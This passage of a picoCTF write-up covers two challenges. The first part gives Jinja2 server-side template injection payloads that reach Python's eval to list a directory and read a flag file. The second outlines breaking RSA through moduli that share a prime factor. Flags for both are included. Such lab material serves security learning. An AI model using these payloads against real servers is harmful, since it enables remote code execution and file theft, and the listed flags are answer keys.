 ## Step 7: Retrieve Flag
**List Challenge:**
```sh
{{ ''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['__builtins__']['eval']('__import__("os").listdir("/challenge")') }}
```

**Read Flag:**
```sh
{{ ''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['__builtins__']['eval']('open("/challenge/flag").read()') }}
```

**Flag:**

`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}`

## EVEN RSA CAN BE BROKEN??? (Cryptography) - 03/13/25 | ~10 min
1. Data collection 
   1. Connected to the service multiple times using Python script with pwnlib
   2. Parsed each response to extract N and C and store pairs
2. Finding Common Factors
   1. For each new N computer gcd with all previous N's using Python's math.gcd
   2. After ~25 connections we found two N's with gcd > 1, confirming a shared prime p
3. Decryption with Python program
4. Retrieve Flag

**Flag:**

`picoCTF{tw0_1$_pr!m3625a858b}`


